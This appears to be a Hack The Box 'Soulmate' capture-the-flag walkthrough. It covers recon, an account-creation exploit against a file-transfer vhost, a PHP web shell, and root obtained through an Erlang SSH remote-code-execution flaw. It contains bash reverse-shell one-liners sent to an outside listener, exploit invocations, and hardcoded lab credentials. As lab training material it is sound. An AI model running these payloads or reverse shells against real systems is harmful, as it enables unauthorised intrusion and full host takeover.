

# HTB-Soulmate

### ReconA

- Added hostnames:
    
    ```bash
    echo "10.129.229.162 soulmate.htb ftp.soulmate.htb" | sudo tee -a /etc/hosts
    
    ```
    
- Ran service enumeration:
    
    ```bash
    nmap -sVC soulmate.htb
    
    ```
    
    Found ports:
    
    - `22/tcp` → OpenSSH
    - `80/tcp` → nginx (web server)

---

### 2. Foothold – Webshell

- Found vulnerable vhost: `ftp.soulmate.htb` (CVE-2025-31161).

```bash
[root@Hacking] /home/kali/soulmate/CVE-2025-31161 (main)
❯ python cve-2025-31161.py --target_host ftp.soulmate.htb --port 80 --target_user root --new_user hyh --password admin123
[+] Preparing Payloads
  [-] Warming up the target
  [-] Target is up and running
[+] Sending Account Create Request
  [!] User created successfully
[+] Exploit Complete you can now login with
   [*] Username: hyh
   [*] Password: admin123.
```



Change password User ben and login to it


Open webprod file and the shell.php


- Verified execution:
    
    ```
    http://soulmate.htb/shell.php?cmd=id
    
    ```
    
    Output: `uid=33(www-data) gid=33(www-data)`
    
- Spawned reverse shell:
    
    ```bash
    rlwrap nc -lvnp 9001
    curl "http://soulmate.htb/shell.php?cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.81/9001 0>&1'"
    
    ```
    

---

### 3. Privilege Escalation → ben

- Inside foothold, discovered Erlang script:
    
    ```bash
    cat /usr/local/lib/erlang_login/start.escript
    
    ```
    
- Key findings in script:
    - Runs **SSH daemon** on `127.0.0.1:2222`.
    - Accepts both password and publickey.
    - Hardcoded creds:
        
        ```
        ben : HouseH0ldings998
        
        ```
        
        Root
        
        ## . Local Recon
        
        **Step:**
        
        Run service enumeration on the compromised host:
        
        ```bash
        ss -tuln
        
        ```
        
        **Finding:**
        
        - Found a local service listening on `127.0.0.1:2222`.
        - Banner check with `nc` shows:
            
            ```
            SSH-2.0-Erlang/5.2.9
            
            ```
            
        
        **Why it matters:**
        
        This isn’t a standard OpenSSH server. It’s an Erlang-based SSH daemon (part of Erlang/OTP).
        
        Non-standard implementations often contain exploitable bugs.
        
        ---
        
        ## 2. Vulnerability Identification
        
        **Step:**
        
        Look up known issues in Erlang SSH.
        
        **Finding:**
        
        - Vulnerable to **CVE-2025-3243** – a pre-authentication remote code execution bug in Erlang SSH.
        - Allows attackers to send crafted SSH channel requests before auth to trigger code execution.
        
        **Why it matters:**
        
        Because the daemon is running **as root**, any successful exploit = instant root shell.
        
        ---
        
        ## 3. Exploit – CVE-2025-3243.py
        
        **Step:**
        
        Use the exploit script `CVE-2025-3243.py`.
        
        - Adapted the PoC to send a **reverse shell payload**:
        
        ```python
        payload = f'os:cmd("bash -c \\"bash -i >& /dev/tcp/{lhost}/{lport} 0>&1\\"").'
        
        ```
        
        **Explanation:**
        
        - The Erlang function `os:cmd/1` runs system commands.
        - We injected a reverse shell command into the SSH request.
        - When processed, it spawns a connection back to our listener with **root privileges**.
        
        ---
        
        ## 4. Execution
        
        **Step 1 – Listener:**
        
        ```bash
        rlwrap nc -lvnp 5555
        
        ```
        
        **Step 2 – Run exploit:**
        
        ```bash
        python3 CVE-2025-3243.py -lh 10.10.14.81 -lp 5555 -rh 127.0.0.1 -rp 2222
        
        ```
        
        **Why it works:**
        
        - The script simulates an SSH negotiation.
        - Instead of a normal exchange, it injects the Erlang RCE payload inside a **channel request**.
        - The Erlang SSH daemon doesn’t validate properly → payload executes directly.
        
        ---
